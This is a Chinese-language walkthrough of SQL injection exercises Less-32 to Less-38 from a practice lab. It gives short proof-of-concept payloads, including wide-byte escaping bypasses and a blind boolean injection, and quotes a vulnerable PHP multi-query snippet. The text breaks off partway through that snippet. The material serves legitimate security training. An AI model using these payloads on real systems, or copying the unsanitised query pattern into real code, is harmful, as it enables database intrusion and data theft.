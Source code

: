 login.php要是开waf，做不出来



## Less-32
和Less-24基本是一样的思路，这里不再赘述
poc
```
id=%df%27union(select(1),2,3)--+
```


## Less-33
貌似和Less-32一模一样
poc同Less-32


## Less-34
没有什么别的介绍的，和上面的题基本一样，直接给poc
![poc](http://o7ocntpuu.bkt.clouddn.com/less_34_poc.png)


## Less-35
id没有单引号包裹

poc
```
id=1 or if(ascii(substr(database(),1,1))=0x73,1,0) -- 
```


## Less-36
绕过`mysql_real_escape_string`函数

poc
```
id=%df%27union(select(1),2,3)--+
```


## Less-37
直接给poc
![poc](http://o7ocntpuu.bkt.clouddn.com/less_37_poc.png)


## Less-38
这是一道Stacked queries SQL injection(可多语句查询注入)的题，原本没遇到这种题，查看了一下源码，才知道多语句查询是这么回事
```php
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
    /* execute multi query */
    if (mysqli_multi_query($con1, $sql))
    {
        /* store first result set */
        if ($result = mysqli_store_result($con1))
        {
            if($row = mysqli_fetch_row($result))
            {
                //something
            }
        }
        /* print divider */
        if (mysqli_more_results($con1))
        {
            //something
```